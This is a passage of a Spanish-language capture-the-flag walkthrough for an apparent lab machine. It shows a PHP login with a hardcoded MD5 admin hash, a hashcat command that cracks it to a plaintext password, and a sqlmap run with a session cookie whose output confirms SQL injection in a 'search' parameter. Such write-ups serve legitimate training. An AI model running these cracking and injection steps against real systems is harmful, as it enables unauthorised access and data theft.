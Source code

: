 🗹 Ver el contenido del archivo `index.php`:

```shell
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

🗹 Crackear con `hashcat` el hash md5 perteneciente a la contraseña encontrada:

```shell
hashcat -m 0 '2cb42f8734ea607eefed3b70af13bbd3' /usr/share/wordlists/rockyou.txt
```

🗹 Ingresar el usuario `admin` en el campo `Username` y la contraseña `qwerty789` en el campo `Password` en la página de login.

🗹 Con `sqlmap` verificar si el parámetro `search` es vulnerable a inyecciones SQL:

```shell
sqlmap -u "http://10.129.96.0/dashboard.php?search=test" --cookie="PHPSESSID=kdrcpu58g24mc4cn5ffan6ncj5"

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.2#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:20:49 /2024-03-19/

[19:20:49] [INFO] testing connection to the target URL
[19:20:49] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:20:49] [INFO] testing if the target URL content is stable
[19:20:50] [INFO] target URL content is stable
[19:20:50] [INFO] testing if GET parameter 'search' is dynamic
[19:20:50] [WARNING] GET parameter 'search' does not appear to be dynamic
[19:20:50] [INFO] heuristic (basic) test shows that GET parameter 'search' might be injectable (possible DBMS: 'PostgreSQL')
[19:20:50] [INFO] heuristic (XSS) test shows that GET parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
[19:20:50] [INFO] testing for SQL injection on GET parameter 'search'
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 

for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] 

[19:21:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:21:37] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:21:37] [INFO] testing 'Generic inline queries'
[19:21:37] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[19:21:38] [INFO] GET parameter 'search' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable 
```